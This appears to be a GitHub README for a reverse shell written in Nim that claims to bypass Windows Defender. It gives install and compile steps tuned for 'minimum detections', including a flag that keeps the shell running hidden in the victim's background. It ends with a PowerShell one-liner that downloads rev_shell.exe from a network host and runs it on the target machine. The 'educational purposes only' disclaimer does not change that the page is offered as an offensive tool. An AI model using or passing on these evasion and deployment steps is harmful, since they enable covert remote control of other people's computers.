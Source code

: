 # Nim Reverse Shell

A simple reverse shell written in Nim that bypasses Windows Defender detection (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)
- Windows 11 (10.0.22631)

## Installation

Installing MingW64:

```bash
apt install mingw-w64
```

Installing Nim:

```bash
apt install nim
```

## Compilation

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). I strongly recommend to follow the below example for minimum detections as possible.

```bash
nim c -d:mingw --app:gui rev_shell.nim
```

## On Windows(Target Machine)

```powershell
Invoke-WebRequest -Uri http://192.168.1.71:81/rev_shell.exe -OutFile rev_shell.exe ; ./rev_shell.exe
```
